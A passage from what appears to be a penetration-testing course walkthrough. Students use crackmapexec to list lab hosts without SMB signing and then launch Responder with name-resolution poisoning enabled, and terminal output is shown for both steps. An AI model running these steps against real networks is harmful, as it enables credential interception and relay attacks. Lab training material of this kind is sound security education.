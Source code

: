 Once students have altered and verified the configuration, they will have to generate a target file of computers with SMB signing `disabled` (False). Utilizing `crackmapexec` and its `--gen-relay-list` parameter, students can generate a file containing the targets over the SMB protocol:

Code: shell

```shell
crackmapexec smb 172.16.117.0/24 --gen-relay-list targets.txt
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ crackmapexec smb 172.16.117.0/24 --gen-relay-list targets.txt

SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

htb-student@ubuntu:~/tools/Responder$ cat targets.txt 
172.16.117.50
172.16.117.60
```

After generating the file containing the targets, students will have to start `Responder.py` using `sudo` in one terminal window with poisoning enabled and by specifying the interface `ens192` within the `-I` parameter.

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [ON]
```